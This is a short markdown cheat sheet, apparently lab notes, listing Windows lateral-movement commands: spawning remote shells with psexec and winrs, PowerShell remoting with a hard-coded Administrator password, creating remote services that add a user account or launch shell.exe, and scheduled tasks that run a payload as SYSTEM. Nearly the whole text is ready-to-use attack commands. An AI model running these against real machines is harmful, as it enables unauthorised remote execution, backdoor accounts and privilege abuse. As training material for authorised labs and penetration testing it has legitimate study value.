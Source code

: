 # Processes
Spawn processes remotely to interact with other machines

## Psexec
* psexec64.exe \\MACHINE_IP -u Administrator -p Mypass123 -i cmd.exe

## Winrm
* winrs.exe -u:Administrator -p:Mypass123 -r:target cmd
* $username = 'Administrator';
$password = 'Mypass123';
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force; 
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword;
* Enter-PSSession -Computername TARGET -Credential $credential
* Invoke-Command -Computername TARGET -Credential $credential -ScriptBlock {whoami}

## sc
### Create a service
* sc.exe \\TARGET create Myservice binPath= "net user munra Pass123 /add" start= auto
* sc.exe \\otro.domain.com create SERVICIO_PERRON binPath= "%windir%\shell.exe" start= auto
* sc.exe \\TARGET start Myservice
* sc.exe \\TARGET stop THMservice
* sc.exe \\TARGET delete THMservice

## SCHTASK
* schtasks /s TARGET /RU "SYSTEM" /create /tn "Mytask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 
* schtasks /s TARGET /run /TN "Mytask1"
* schtasks /S TARGET /TN "Mytask1" /DELETE /F
